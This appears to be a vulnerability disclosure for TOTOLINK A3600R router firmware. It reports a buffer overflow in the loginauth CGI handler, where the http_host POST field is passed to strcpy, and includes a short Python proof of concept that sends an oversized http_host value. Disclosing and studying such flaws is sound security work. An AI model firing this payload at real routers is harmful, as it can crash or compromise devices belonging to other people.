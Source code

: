 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v8` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy(v26, v8);` can cause a buffer overflow injection vulnerability.

![image-20240719101917489](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101917489.png)

![image-20240719101821295](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101821295.png)

![image-20240719101834445](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101834445.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720235644369](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235644369.png)
